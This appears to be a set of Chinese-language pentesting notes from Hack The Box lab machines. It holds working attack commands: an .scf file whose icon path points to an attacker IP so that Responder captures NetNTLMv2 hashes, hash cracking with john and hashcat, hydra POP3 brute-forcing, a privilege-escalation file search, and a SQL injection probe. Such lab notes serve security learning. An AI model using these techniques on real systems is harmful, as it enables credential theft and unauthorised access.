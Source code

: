 
- 如果为了得到更好的 shell ，可以上传 公钥到 用户shelly 家里的 .ssh 目录，再私钥登录，可参考 [HTB: Shocker | 0xdf hacks stuff](https://0xdf.gitlab.io/2021/05/25/htb-shocker.html)




-  `Responder` 配合 `.scf`，背景是发现了挂载 smb 目录后的 `/mnt/Users/Public` 里会定时清除文件，而这个目录存在 `.scf` 文件。大概意思就是，当有用户查看 `.scf` 文件所在的目录或者做了什么事情时，`.csf` 文件里的 `icon` 路径会被远程执行。以上定时删除文件的这个特性刚好满足了我们攻击的条件，可配合 `Responder` 获取 NetNTLMv2 的 Hash 。  详情见靶机 [Sizzle](https://0xdf.gitlab.io/2019/06/01/htb-sizzle.html#)

  ```bash
  # 在文件夹内创建一个 csf 文件
  root@kali:/mnt/Users/Public# cat 0xdf.scf 
  [Shell]
  Command=2
  IconFile=\\10.10.16.5\uwu\uwu.ico
  [Taskbar]
  Command=ToggleDesktop
  ```

  ```bash
  # kali 监听
  responder -I tun0 --lm
  # 破解 NTMLV2
  john --wordlist=/usr/share/wordlists/rockyou.txt amanda-ntlmv2
  hashcat -m 5600 amanda-ntlmv2 /usr/share/wordlists/rockyou.txt --force
  ```

​        

- POP3 渗透 可参考靶机 solidstate

  [【渗透技巧】pop3协议渗透_pop3渗透_包大人在此的博客-CSDN博客](https://blog.csdn.net/b10d9/article/details/112155909)

  [110-pop3 (flowus.cn)](https://flowus.cn/5fd1d77b-b5ed-4753-a765-90bdbf6bffb7)

  [110,995 - Pentesting POP - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-pop)

  ```bash
  # 可以尝试爆破
  └─# hydra -s 110 -L cewl.list -P /usr/share/wordlists/rockyou.txt -e nsr -t 22 10.10.10.51 pop3
  ```



- 查找 /proc/* 下可写的并且属于 root 的文件

  ```
  find / -user root -writable -type f -not -path "/proc/*"  2>/dev/null
  ```

  linux 提权时枚举信息，看当前进程运行的文件 可用  https://github.com/DominicBreuker/pspy

  

- mssql 数据库手工注入，参考 SteamIO 靶机

  ```bash
  # sql语句大约是模糊查询
  select * from movies where title like '%[input]%';
  # 于是尝试  man';-- -  正常检索出来了 man 相关的电影
  select * from movies where title like '%man';-- -%';
  ```
